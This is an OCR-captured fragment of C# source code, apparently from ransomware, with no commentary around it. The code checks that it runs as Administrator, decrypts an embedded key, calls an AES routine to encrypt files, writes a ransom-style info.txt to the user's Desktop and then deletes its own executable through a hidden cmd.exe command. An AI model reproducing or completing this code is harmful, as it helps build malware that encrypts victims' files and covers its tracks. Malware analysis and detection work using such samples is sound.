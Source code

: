 ```csharp

	private static void Execute()
	{
		if (Utils.CheckUser())
		{
			Environment.Exit(0);
		}
		Thread.Sleep(5000);
		Config.Decrypt("SWxsU3RvcFRoaXM=");
		Crypt.Process(Config.AES);
		Utils.LeaveMessage();
		Utils.Annihilate();
	}
}

internal class Utils
{
	public static string CalculateKey()
	{
		try
		{
			return MD5("HelloWin" + Config.User);
		}
		catch
		{
			return "d7d129356554062f0311ee22d59ea9eb";
		}
	}

	public static void LeaveMessage()
	{
		File.WriteAllText("C:\\Users\\" + Environment.UserName + "\\Desktop\\info.txt", Config.Message);
	}

	public static bool CheckUser()
	{
		try
		{
			if (Environment.UserName != "Administrator")
			{
				return true;
			}
			return false;
		}
		catch
		{
			return false;
		}
	}

	public static void Annihilate()
	{
		Process.Start(new ProcessStartInfo
		{
			Arguments = "/C timeout 2 && Del /Q /F " + Application.get_ExecutablePath(),
			WindowStyle = ProcessWindowStyle.Hidden,
			CreateNoWindow = true,
			FileName = "cmd.exe"
		});
	}

	public static string DecodeBase64(string data)
```